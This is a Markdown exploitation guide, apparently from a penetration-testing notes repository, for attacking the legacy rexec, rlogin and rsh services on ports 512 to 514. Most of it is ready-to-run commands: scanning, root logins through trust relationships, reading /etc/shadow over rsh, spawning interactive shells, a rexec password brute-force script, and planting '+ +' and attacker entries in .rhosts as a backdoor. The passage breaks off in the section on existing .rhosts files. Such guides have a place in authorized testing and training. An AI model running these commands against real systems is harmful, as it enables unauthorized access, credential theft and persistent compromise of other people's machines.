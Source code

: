 # 🔐 R-Services (Ports 512/513/514) - Exploitation Guide

## 🎯 Vulnerability Overview

**Services:** R-Services (Berkeley r-commands)  
**Ports:** 
- 512/tcp - rexec (Remote Execution)
- 513/tcp - rlogin (Remote Login)  
- 514/tcp - rsh (Remote Shell)
**Vulnerability Type:** Trust-based Authentication, Weak Security Model  
**Severity:** High to Critical

### Description
R-services (rsh, rlogin, rexec) are legacy remote access protocols that rely on host-based authentication and trust relationships. They transmit data in plaintext and use weak authentication mechanisms, making them highly vulnerable to exploitation.

---

## 🔍 Reconnaissance Workflow

### Step 1: Service Detection

#### Port Scanning
```bash
# Quick r-services scan
nmap -p 512,513,514 <target-ip>

# Service version detection
nmap -sV -p 512,513,514 <target-ip>

# Comprehensive enumeration
nmap -sV -sC -p 512,513,514 --script rexec-brute,rsh-enum <target-ip>
```

#### Banner Grabbing
```bash
# rexec (512) banner
nc <target-ip> 512

# rlogin (513) banner  
nc <target-ip> 513

# rsh (514) banner
nc <target-ip> 514

# Using telnet
telnet <target-ip> 512
telnet <target-ip> 513
telnet <target-ip> 514
```

### Step 2: Trust Relationship Discovery

#### Check for Trust Relationships
```bash
# Test rlogin without authentication
rlogin <target-ip>
rlogin -l root <target-ip>
rlogin -l admin <target-ip>

# Test rsh command execution
rsh <target-ip> id
rsh <target-ip> -l root id
rsh <target-ip> -l root whoami

# Test various usernames
for user in root admin user guest; do
    echo "Testing user: $user"
    rsh <target-ip> -l $user id
done
```

#### .rhosts File Analysis
```bash
# Common .rhosts file locations to check (if you gain access)
/root/.rhosts
/home/user/.rhosts
~/.rhosts

# Common .rhosts entries that indicate trust
+ +                    # Trust everyone (extremely dangerous)
+ root                # Trust root from any host
hostname root         # Trust root from specific hostname
192.168.1.5 admin     # Trust specific user from specific IP
```

### Step 3: User Enumeration

#### Username Discovery
```bash
# Test common usernames via rlogin
for user in root admin administrator user guest oracle postgres mysql; do
    echo "Trying user: $user"
    timeout 5 rlogin -l $user <target-ip> 2>&1 | head -3
done

# Using finger service (if available)
finger @<target-ip>
finger root@<target-ip>
finger user@<target-ip>
```

---

## 💥 Exploitation Workflow

### Method 1: Trust Relationship Abuse

#### Direct Remote Login
```bash
# Test direct rlogin access
rlogin <target-ip>
rlogin -l root <target-ip>
rlogin -l admin <target-ip>

# If successful, you get an interactive shell
whoami
id
uname -a
```

#### Remote Command Execution
```bash
# Execute commands via rsh
rsh <target-ip> id
rsh <target-ip> whoami
rsh <target-ip> "cat /etc/passwd"
rsh <target-ip> "ls -la /root"

# With specific user
rsh <target-ip> -l root "cat /etc/shadow"
rsh <target-ip> -l admin "sudo -l"

# Multi-command execution
rsh <target-ip> -l root "id; whoami; hostname; uname -a"
```

#### Interactive Shell via rsh
```bash
# Get interactive shell through rsh
rsh <target-ip> -l root /bin/bash
rsh <target-ip> -l root /bin/sh

# Alternative method
rsh <target-ip> -l root "bash -i"
rsh <target-ip> -l root "sh -i"
```

### Method 2: rexec Exploitation

#### Username/Password Authentication
```bash
# rexec requires username and password
rexec <target-ip> -l root -p password id
rexec <target-ip> -l admin -p admin whoami

# Test common credentials
rexec <target-ip> -l root -p root id
rexec <target-ip> -l root -p toor id
rexec <target-ip> -l admin -p admin id
```

#### Automated rexec Brute Force
```bash
# Using Nmap script
nmap --script rexec-brute -p 512 <target-ip>

# Manual script approach
#!/bin/bash
target=$1
users=("root" "admin" "user")
passwords=("" "root" "admin" "password" "123456")

for user in "${users[@]}"; do
    for pass in "${passwords[@]}"; do
        echo "Trying $user:$pass"
        timeout 5 rexec $target -l $user -p $pass id 2>/dev/null
    done
done
```

### Method 3: .rhosts File Manipulation

#### Creating Malicious .rhosts
```bash
# If you have write access to user's home directory
echo "+ +" > ~/.rhosts
echo "<your-ip> <your-username>" >> ~/.rhosts
chmod 644 ~/.rhosts

# More specific trust relationship
echo "attacker-hostname root" > ~/.rhosts
echo "192.168.1.100 admin" >> ~/.rhosts
```

#### Exploiting Existing .rhosts
```bash
# If .rhosts exists with weak permissions
# Look for entries like:
# + +
# + root